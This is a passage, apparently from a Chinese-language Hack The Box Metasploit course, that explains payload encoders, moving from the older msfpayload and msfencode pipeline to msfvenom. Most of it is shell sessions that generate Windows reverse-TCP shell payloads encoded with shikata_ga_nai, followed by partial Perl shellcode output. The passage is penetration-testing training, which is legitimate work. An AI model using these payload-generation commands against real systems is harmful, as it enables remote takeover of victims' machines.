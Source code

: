 ------

## 选择编码器

在 2015 年之前，Metasploit 框架有不同的子模块来处理负载和编码器。它们与 msfconsole 脚本分开打包，并称为`msfpayload`and `msfencode`。这两个工具位于`/usr/share/framework2/`.

如果我们想创建我们的自定义负载，我们可以通过 来实现`msfpayload`，但我们必须根据目标操作系统架构对其进行编码，`msfencode`然后再使用。管道将从一个命令获取输出并将其馈送到下一个命令，这将生成一个编码的有效负载，准备好发送并在目标机器上运行。

 

```shell-session
vnswer77@htb[/htb]$ msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai

[*] x86/shikata_ga_nai succeeded with size 1636 (iteration=1)

my $buf = 
"\xbe\x7b\xe6\xcd\x7c\xd9\xf6\xd9\x74\x24\xf4\x58\x2b\xc9" .
"\x66\xb9\x92\x01\x31\x70\x17\x83\xc0\x04\x03\x70\x13\xe2" .
"\x8e\xc9\xe7\x76\x50\x3c\xd8\xf1\xf9\x2e\x7c\x91\x8e\xdd" .
"\x53\x1e\x18\x47\xc0\x8c\x87\xf5\x7d\x3b\x52\x88\x0e\xa6" .
"\xc3\x18\x92\x58\xdb\xcd\x74\xaa\x2a\x3a\x55\xae\x35\x36" .
"\xf0\x5d\xcf\x96\xd0\x81\xa7\xa2\x50\xb2\x0d\x64\xb6\x45" .
"\x06\x0d\xe6\xc4\x8d\x85\x97\x65\x3d\x0a\x37\xe3\xc9\xfc" .
"\xa4\x9c\x5c\x0b\x0b\x49\xbe\x5d\x0e\xdf\xfc\x2e\xc3\x9a" .
"\x3d\xd7\x82\x48\x4e\x72\x69\xb1\xfc\x34\x3e\xe2\xa8\xf9" .
"\xf1\x36\x67\x2c\xc2\x18\xb7\x1e\x13\x49\x97\x12\x03\xde" .
"\x85\xfe\x9e\xd4\x1d\xcb\xd4\x38\x7d\x39\x35\x6b\x5d\x6f" .
"\x50\x1d\xf8\xfd\xe9\x84\x41\x6d\x60\x29\x20\x12\x08\xe7" .
"\xcf\xa0\x82\x6e\x6a\x3a\x5e\x44\x58\x9c\xf2\xc3\xd6\xb9" .

<SNIP>
```

2015 年之后，这些脚本的更新已将它们合并到`msfvenom`工具中，该工具负责有效负载生成和编码。`msfvenom`后面我们会详细讲到。下面是今天的有效负载生成的示例`msfvenom`：

#### 生成有效载荷 - 无编码

 生成有效载荷 - 无编码

```shell-session
vnswer77@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of perl file: 1674 bytes
my $buf = 
"\xda\xc1\xba\x37\xc7\xcb\x5e\xd9\x74\x24\xf4\x5b\x2b\xc9" .
"\xb1\x59\x83\xeb\xfc\x31\x53\x15\x03\x53\x15\xd5\x32\x37" .
"\xb6\x96\xbd\xc8\x47\xc8\x8c\x1a\x23\x83\xbd\xaa\x27\xc1" .
"\x4d\x42\xd2\x6e\x1f\x40\x2c\x8f\x2b\x1a\x66\x60\x9b\x91" .
